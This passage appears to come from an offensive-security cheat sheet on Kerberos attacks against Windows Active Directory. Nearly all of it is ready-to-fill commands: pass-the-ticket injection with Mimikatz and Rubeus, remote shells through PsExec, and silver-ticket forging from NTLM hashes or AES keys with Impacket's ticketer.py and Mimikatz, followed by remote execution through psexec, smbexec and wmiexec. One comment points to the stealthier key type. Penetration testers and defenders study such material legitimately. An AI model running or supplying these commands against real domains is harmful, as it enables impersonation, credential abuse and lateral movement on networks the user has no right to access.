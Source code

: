 Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
